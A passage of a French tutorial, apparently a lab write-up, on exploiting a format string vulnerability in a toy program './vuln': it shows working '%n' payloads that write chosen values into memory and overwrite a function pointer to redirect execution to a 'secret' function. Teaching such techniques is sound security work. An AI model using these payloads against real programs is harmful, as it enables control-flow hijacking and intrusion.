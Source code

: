 Good ! L'inconvénient c'est que `%n` comptabilise tous les caractères déjà écrits. Donc si l'on souhaite écrire trois valeurs différentes dans `a`, `b` et `c` il faut commencer par faire afficher autant de caractères que la plus petite valeur, l'écrire en mémoire à l'adresse souhaitée, faire afficher des caractères supplémentaires correspondant à la valeur souhaitée immédiatement supérieure moins ce qui a été déjà écrit, écrire en mémoire, etc.  

Ainsi si je veut mettre 1337 dans `a`, 16 dans `b` et 666 dans `c` il nous faudra :  

* écrire 16 octets, les stocker via `y`
* écrire 666 - 16 déjà écrits soit 650 octets, les stocker via `z`
* écrire 1337 - 666 octets soit 671, les stocker via `x`

Ce qui donne :  

```console
oj@hell:~$ ./vuln "%.16x%5\$n%.650x%6\$n%.671x%4\$n"
terminated=0x804847c, secret=0x8048490, &ptr2f=0xbffffccc
shellcode addr=(nil)
#start a=1, b=2, c=3 - x=0xbffffcc8, y=0xbffffcc4, z=0xbffffcc0
0000000--- snip ---00003
#end  a=1337, b=16, c=666 - x=0xbffffcc8, y=0xbffffcc4, z=0xbffffcc0
Program terminated with success
```

Ecraser le pointeur sur fonction
--------------------------------

On va mettre un peu de piment et faire quelque chose de plus utile grâce au pointeur sur pointeur sur fonction placé en 12ème position sur la pile.  

```console
oj@hell:~$ ./vuln "%12\$.8x"
terminated=0x804847c, secret=0x8048490, &ptr2f=0xbffffcdc
shellcode addr=(nil)
#start a=1, b=2, c=3 - x=0xbffffcd8, y=0xbffffcd4, z=0xbffffcd0
bffffcdc
#end  a=1, b=2, c=3 - x=0xbffffcd8, y=0xbffffcd4, z=0xbffffcd0
Program terminated with success
```

On va écraser sa valeur (actuellement l'adresse de `terminated`) par l'adresse de la fonction `secret` (`0x8048490`).  

Il nous faut donc écrire 134513808 octets. C'est exactement la même technique qu'avec les entiers et les pointeurs vu au dessus.  

```console
oj@hell:~$ ./vuln "%.134513808x%12\$n"
terminated=0x804847c, secret=0x8048490, &ptr2f=0xbffffccc
shellcode addr=(nil)
#start a=1, b=2, c=3 - x=0xbffffcc8, y=0xbffffcc4, z=0xbffffcc0
--- snip : chaine très très longue ---
#end  a=1, b=2, c=3 - x=0xbffffcc8, y=0xbffffcc4, z=0xbffffcc0
super secret area
```

Victoire ! On a réussi à détourner le flot d'exécution du programme :)  
